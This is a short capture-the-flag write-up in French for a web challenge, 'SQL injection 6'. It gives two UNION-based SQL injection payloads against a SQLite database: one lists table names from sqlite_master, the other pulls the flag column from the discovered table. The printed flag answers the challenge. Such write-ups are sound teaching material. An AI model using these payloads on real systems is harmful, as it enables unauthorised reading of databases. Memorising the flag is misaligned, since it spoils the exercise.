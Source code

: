 # SQL injection 6

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce sixième défi d'injection SQL similaire aux deux défis prédédents, cependant le flag se cache dans une table aillant un nom inconnu. Vous devez trouver un moyen de l'obtenir puis ensuite récupérer le flag. Le mot clé "union" n'est plus filtré, donc vous avez cet embuche de moins. 

Il y a peut-être de l'information qui peut vous aider à résoudre ce défi dans les description de défis précédente. Notez que la colonne où le flag se trouve se nomme toujours "flag".

## Setup

Requirements:
- BurpSuite

# Writeup

Sachant que la base de données est SQLite3, on peut aller chercher le nom des tables comme suit:
`" union select 1,2,name from sqlite_master--`

Par la suite, ayant obtenu le nom de la table, on peut faire:
`" union select 1,2,flag from K953U0Ty4V--`.

Le tour est joué. `FLAG-25389bf2c3b5f951b1201213fa6c46baYouAreEpic`
